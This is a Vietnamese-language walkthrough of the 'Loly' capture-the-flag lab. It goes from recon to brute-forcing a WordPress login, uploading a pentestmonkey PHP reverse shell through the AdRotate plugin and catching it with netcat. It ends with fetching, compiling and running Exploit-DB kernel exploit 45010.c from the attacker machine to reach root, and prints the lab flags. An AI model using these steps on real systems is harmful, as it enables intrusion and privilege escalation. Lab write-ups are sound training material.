# Loly





**Target:** Lab này yêu cầu chúng ta khai thác trên website WordPress (thông qua lỗ hổng plugin) và chiếm shell qua PHP reverse shell, sau đó leo thang đặc quyền (Privilege Escalation) thông qua Kernel Exploit *(Local Privilege)* lên root để đọc flag local.txt và proof.txt.

## 1. Recon & Vulnerability Assessment

Đầu tiên, chúng ta sẽ dùng lệnh nmap để rà quét xem port nào đang mở và dịch vụ tương ứng:

```bash
nmap -sC -sV <IP>
```


Sau khi chạy xong, ta thấy được port 80 đang mở và server đang chạy dịch vụ web nền tảng Nginx, mặc dù theo **Lab Description** thì có trang **Wordpress**.

Truy cập IP trực tiếp chỉ thấy trang mặc định nên mình sử dụng Gobuster để dò quét thư mục:

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt

```

Phát hiện thư mục ẩn `/wordpress`. Khi truy cập, giao diện web bị vỡ. Tiến hành cấu hình file `/etc/hosts` trên máy Kali để ánh xạ IP mục tiêu với tên miền `loly.lc`. 




> Truy cập thành công trang WordPress.

Tiếp đến, dùng tool wpscan để quét thêm thông tin và liệt kê danh sách người dùng:

```bash
wpscan --url <http://loly.lc/wordpress> -e u
```



> Quá trình quét phát hiện ra tài khoản `loly`.

## 2. Initial Access

Bây giờ, tiến hành brute-force mật khẩu của tài khoản `loly` bằng WPScan kết hợp với wordlist (như rockyou.txt):

```bash
wpscan --url <http://loly.lc/wordpress> -U loly -P rockyou.txt
```



> Password tìm được trùng khớp. 

Sử dụng tài khoản này, đăng nhập thành công vào trang admin (`/wp-admin`). Kiểm tra các thành phần của trang, phát hiện hệ thống đang sử dụng plugin AdRotate. 



Mình sẽ lợi dụng tính năng upload của plugin này để chèn exploit code bằng file zip.

### Khai thác (Exploit)

1. Chuẩn bị đoạn mã `php-reverse-shell` (từ pentestmonkey), chỉnh sửa thông số `$ip` và `$port` trỏ về máy Kali của mình.
2. Để bypass bộ lọc upload của AdRotate, nén file shell thành định dạng `.zip`:

```bash
zip php-reverse-shell.zip php-reverse-shell.php
```

3. Upload file `php-reverse-shell.zip` lên server thông qua tính năng quản lý của plugin AdRotate.
4. Đồng thời, mở một terminal khác lên và chạy Netcat để lắng nghe kết nối:

```bash
nc -nvlp 4444
```

5. Truy cập vào đường dẫn chứa file shell đã giải nén trên server để kích hoạt.


    
    → Kết quả: Shell đã được trả về với quyền `www-data`!
    

6. Tuy nhiên shell lúc này bị giới hạn chức năng. Để thuận tiện làm việc, mình dùng Python để nâng cấp lên TTY hoàn chỉnh:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



## 3. Privilege Escalation

Sau khi vào được shell dưới quyền user web (`www-data`), chúng ta sẽ tìm cách leo lên quyền root.

Đầu tiên, chúng ta sẽ tìm cách vào user nào đó vì user web sẽ bị hạn chế quyền rất nhiều, mình sẽ kiểm tra trong `wp-config.php` thử :



> Password : lolyisabeautifulgirl

Mình sẽ đăng nhập tài khoản này với user tìm được lúc đầu là `loly`.



> Đã vào được user `loly`

Mình sẽ check các file coi cái nào có SUID bit cho user thường để có thể leo lên quyền root cùng với đó là kiểm tra phiên bản hệ điều hành bằng lệnh `uname -a`. Phát hiện máy chạy Ubuntu 16.04 (Kernel 4.4).



Tra cứu trên Exploit-DB, lựa chọn mã khai thác Kernel Local Privilege Escalation (45010.c).



Tiến hành đưa file thực thi sang máy mục tiêu:

1. Mở web server tạm thời trên Kali:

```bash
python3 -m http.server 80
```

1. Trên máy Loly (ở terminal đã nhận shell), di chuyển vào `/tmp` và kéo file về:

```bash
cd /tmp
wget http://<IP_Kali>/45010.c
gcc 45010.c -o 45010
chmod +x 45010
./45010
```

Sau khi file khai thác chạy xong, kiểm tra lại bằng lệnh `id`.





→ Kết quả: Chúng ta đã leo lên được quyền root thành công.

## 4. Result

Tại thư mục root, dùng lệnh `find` để tìm kiếm vị trí các file flag:

```bash
find / -type f -name "local.txt" 2>/dev/null
find / -type f -name "proof.txt" 2>/dev/null
```

Cuối cùng, dùng lệnh `cat` in ra nội dung 2 file để lấy flag.


### 🚩 Flags

- **local.txt:** `33679552c79b02b974467f3bda344406`
- **proof.txt:** `257e5ec76b76929d9e6eb82dc8ac90eb`
